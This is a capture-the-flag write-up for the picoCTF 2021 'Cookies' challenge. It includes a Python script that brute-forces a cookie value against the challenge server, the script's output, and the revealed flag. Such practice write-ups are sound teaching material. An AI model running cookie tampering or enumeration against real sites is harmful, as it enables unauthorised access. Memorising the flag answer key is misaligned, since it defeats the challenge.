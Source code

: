# Cookies [Easy] (by madStacks) - picoCTF 2021
> Who doesn't love cookies? Try to figure out the best one. <a href="http://mercury.picoctf.net:29649/">http://mercury.picoctf.net:29649/</a>


Inspect the page and shift to cookie page, we can see `name: -1`, change `-1` to difference numbers and refresh the page. \
We found that only non-negative number works. After trials, the flag is displayed when number is `18`. \
Alternatively, python can do that for us:
```python
import requests, re

for i in range(0,1000):
    a = requests.get("http://mercury.picoctf.net:29649/check",cookies={"name":str(i)}).text
    if "pico" in a:
        print(re.findall("picoCTF{.*}", a)[0])
        exit(0)
    else:
        print("Fail Trial: ",i)
```
```
Fail Trial:  0
Fail Trial:  1
Fail Trial:  2
Fail Trial:  3
Fail Trial:  4
Fail Trial:  5
Fail Trial:  6
Fail Trial:  7
Fail Trial:  8
Fail Trial:  9
Fail Trial:  10
Fail Trial:  11
Fail Trial:  12
Fail Trial:  13
Fail Trial:  14
Fail Trial:  15
Fail Trial:  16
Fail Trial:  17
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```

flag: `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`
